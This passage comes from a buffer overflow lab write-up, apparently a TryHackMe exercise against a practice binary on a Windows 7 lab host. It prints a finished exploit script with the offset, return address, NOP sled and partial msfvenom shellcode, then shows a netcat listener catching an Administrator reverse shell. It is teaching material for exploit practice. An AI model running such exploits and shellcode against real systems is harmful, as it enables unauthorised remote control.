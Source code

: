 Note the LHOST and LPORT are for our Kali machine where we will have netcat waiting for the reverse shell to connect.

### Finish Exploit Script

Time to put our final script together:

```text
ip = "192.168.0.11"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = "\x90" * 16
payload =  b""
payload += b"\xbe\xa6\xc1\xe7\x1b\xda\xcc\xd9\x74\x24\xf4\x58"
payload += b"\x33\xc9\xb1\x52\x83\xe8\xfc\x31\x70\x0e\x03\xd6"
payload += b"\xcf\x05\xee\xea\x38\x4b\x11\x12\xb9\x2c\x9b\xf7"
payload += b"\x88\x6c\xff\x7c\xba\x5c\x8b\xd0\x37\x16\xd9\xc0"
payload += b"\xcc\x5a\xf6\xe7\x65\xd0\x20\xc6\x76\x49\x10\x49"
payload += b"\xf5\x90\x45\xa9\xc4\x5a\x98\xa8\x01\x86\x51\xf8"
<SNIP>
```

Just to confirm what we have above:

```text
ip = IP address of Win7 running our ocsp.exe
port = port ocsp.exe is listening on
offset = number of bytes that will fill the buffer
overflow = will be letter A * offset
retn = address of the ESP
padding = NOP sled to ensure we hit our payload
payload = shellcode created by MSFVenom
```

### Reverse Shell

Make sure you've restarted ocsp.exe and set it running in Immunity. Now we can run the script on Kali:

```text
root@kali:/home/kali/thm/bofprep# python exploit.py 
Sending evil buffer...
Done!
```

Switch to our other console window on Kali where netcat is listening:

```text
kali@kali:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.19] from (UNKNOWN) [192.168.0.11] 49939
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Administrator\Desktop>
```
